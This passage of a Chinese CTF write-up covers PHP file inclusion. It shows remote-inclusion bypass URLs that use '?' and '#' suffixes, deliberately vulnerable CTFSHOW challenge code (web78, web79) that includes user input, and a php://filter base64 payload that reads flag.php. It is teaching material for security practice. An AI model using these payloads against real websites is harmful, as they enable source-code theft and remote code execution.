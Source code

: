 代码中多添加了html后缀，导致远程包含的文件也会多一个html后缀。

问号绕过

```php
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt?
```

#号绕过

```php
http://www.ctfs-wiki.com/FI/WFI.php?filename=http://192.168.91.133/FI/php.txt%23
```

其他绕过方法可以通过fuzz来测试哪些字符可以进行绕过



------

## CTFSHOW题目

#### web78

**题目源码**

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    include($file);
}else{
    highlight_file(__FILE__);
}
```

**解题思路：用php://filter伪协议去读取flag.php**

php://filter（本地磁盘文件进行读取） 元封装器，设计用于”数据流打开”时的”筛选过滤”应用，对本地磁盘文件进行读写。 

用法：filename=php://filter/convert.base64-encode/resource=xxx.php ?filename=php://filter/read=convert.base64-encode/resource=xxx.php 一样。 条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；

```php
?file=php://filter/read=convert.base64-encode/resource=flag.php
```



#### web79

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
